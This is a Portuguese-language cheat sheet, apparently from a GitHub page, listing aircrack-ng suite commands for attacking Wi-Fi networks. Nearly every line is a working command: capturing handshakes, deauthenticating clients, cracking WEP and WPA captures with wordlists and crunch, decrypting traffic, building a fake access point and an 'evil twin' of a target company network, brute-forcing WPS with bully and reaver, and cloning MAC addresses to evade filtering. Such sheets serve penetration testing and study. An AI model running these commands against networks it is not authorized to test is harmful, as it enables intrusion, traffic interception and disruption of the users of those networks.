 # AIRCRACK-NG

## AIRMON-NG

Checando processos conflitantes:
airmon-ng check

Matando processos conflitantes:
airmon-ng check kill

Iniciando modo monitor:
airmon-ng start wlan0
*O nome da interface pode variar.*

Setando canal específico:
iwconfig wlan0mon channel 1

## AIRODUMP-NG

Ver informações das redes wireless:
airodump-ng wlan0mon

Filtrando por canal:
airodump-ng -c 10 wlan0mon

Filtrando por BSSID:
airodump-ng --bssid 00:11:22:AA:BB:CC wlan0mon

Filtrando por tipo de criptografia:
airodump-ng --encrypt wep wlan0mon

Verificando redes com WPS:
airodump-ng wlan0mon --wps
wash -i wlan0mon -C

Capturando os pacotes e escrevendo em um arquivo:
airodump-ng -c 10 --bssid 00:11:22:AA:BB:CC -w capture wlan0mon

## AIREPLAY-NG

Para acelerar a captura de pacotes através do airodump-ng no ataque WEP:
aireplay-ng -3 -b 00:11:22:AA:BB:CC -h AA:BB:CC:DD:EE:FF:99 wlan0mon
**-b** ==> BSSID do roteador alvo.
**-h** ==> BSSID do cliente conectado ao roteador.

Para acelerar a captura de handshakes através do airodump-ng no ataque WPA:
aireplay-ng -0 5 -a 00:11:22:AA:BB:CC -c AA:BB:CC:DD:EE:FF:99 wlan0mon
**-a** ==> MAC access point.
**-c** ==> MAC do cliente.
**-0 5** ==> Deauth cliente 5 vezes.

## AIRCRACK-NG

Quebra do arquivo capturado no airodump-ng para redes WEP:
aircrack-ng capture-01.cap

Quebra do arquivo capturado no airodump-ng para redes WPA:
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt

Concatenar crunch e o aircrack-ng:
crunch 15 15 -t EmpresaAlfa%%%% 0123456789 | aircrack-ng captura-01.cap -w - -e EmpresaAlfa

## AIRDECAP-NG

Desencriptando pacotes escriptados em rede wireless:
airdecap-ng -w A0:11:22:33:44:55:66:77:CC:B1:B4:8A:D3 capture-01.cap
**-w** ==> Senha em HEX da rede.

## AIRBASE-NG

Criando AP Fake OPN:
airbase-ng wlan0mon -c 3 -e FreeWifi

Criando AP Fake WPA2:
airbase-ng wlan0mon -c 3 -e FreeWifi -Z 4

Configurando AP Fake para possuir acesso à internet:
1- echo 1 > /proc/sys/net/ipv4/ip_forward
2- iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
3- apt install isc-dhcp-server
4- nano /etc/default/isc-dhcp-server
        INTERFACES="at0"
5- nano /etc/dhcp/dhcpd.conf
        option domain-name-servers 8.8.8.8, 8.8.4.4;

        default-lease-time 600;
        max-lease-time 7200;

        ddns-update-style none;

        subnet 10.0.0.0 netmask 255.255.255.0 {
          range 10.0.0.10 10.0.0.100;
          option routers 10.0.0.1;
        }
5- ifconfig at0 10.0.0.1/24
6- service isc-dhcp-server start

### EVIL TWIN

Consiste em criar uma rede idêntica a do alvo.

Criando rede através do airbase-ng:
airbase-ng wlan0mon -c 10 -e EmpresaAlfa -a 00:11:22:33:44:55 -Z 4

Agora iremos efetuar o Death dos clientes:
aireplay-ng wlan0mon -0 5 -a 00:11:22:33:44:55
*Logo os usuários irão se conectar no AP Fake.*

## BULLY

Brute force em WPS:
bully wlan0mon -b 00:11:22:AA:BB:CC -e EmpresaAlfa -c 10

## REAVER

Brute force em WPS:
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv

Ataque PixieWPS:
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -K 1
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -K 1 -P

Utilizando timeout e delay:
reaver -i wlan0mon -b 00:11:22:AA:BB:CC -vv -t 2 -d 5

## MAC Changer

Clonando MAC de cliente para conectar em redes com MAC Filter:
ifconfig wlan0 down
macchanger -m AA:BB:CC:DD:EE:FF:99 wlan0
ifconfig wlan0 up
service NetworkManager
